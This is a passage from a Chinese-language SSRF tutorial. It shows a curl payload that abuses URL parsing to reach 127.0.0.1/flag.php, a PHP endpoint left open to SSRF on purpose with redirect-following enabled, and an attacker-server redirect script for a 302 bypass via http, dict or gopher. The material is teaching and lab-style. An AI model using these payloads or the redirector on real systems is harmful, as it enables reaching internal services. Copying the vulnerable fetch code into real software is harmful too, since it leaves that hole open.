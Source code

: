 ![](/img/image-20200120223636988.png)



构造CURL的payload：

```bash
curl -d "url=http://foo@127.0.0.1:80@www.baidu.com/flag.php" "http://192.168.43.157"
```

#### 四、301/302跳转绕过

**条件**

> 1.程序的合法性检验逻辑为:检查url参数的host是否为内网地址
>
> 2.使用的是CURL方法，并且CURLOPT_FOLLOWLOCATION为true(即跟随302/301进行跳转)

**可利用的协议：**

> http/https ok
>
> dict ok
>
> gopher ok
>
> file no! [原因](https://curl.haxx.se/libcurl/c/CURLOPT_FOLLOWLOCATION.html)

**服务端代码：**

```php
//ssrf.php
<?php                                                                                                                                                
function curl($url){                                                         
    $ch = curl_init();                                                       
    curl_setopt($ch, CURLOPT_URL, $url);                                     
    curl_setopt($ch, CURLOPT_HEADER, 0);                                     
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);//根据服务器返回 HTTP 头中的 "Location: " 重定向 
    curl_exec($ch);                                                     
    curl_close($ch);                                                         
}                                                                            
$url = $_GET['url'];                                                         
print $url;                                                                  
curl($url);
```

**攻击者的vps：**

```php
//302.php
<?php  
$schema = $_GET['schema'];
$ip     = $_GET['ip'];
$port   = $_GET['port'];
$query  = $_GET['query'];

echo "\n";
echo $schema . "://".$ip."/".$query;

if(empty($port)){  
    header("Location: $schema://$ip/$query");
} else {
    header("Location: $schema://$ip:$port/$query");
}
```
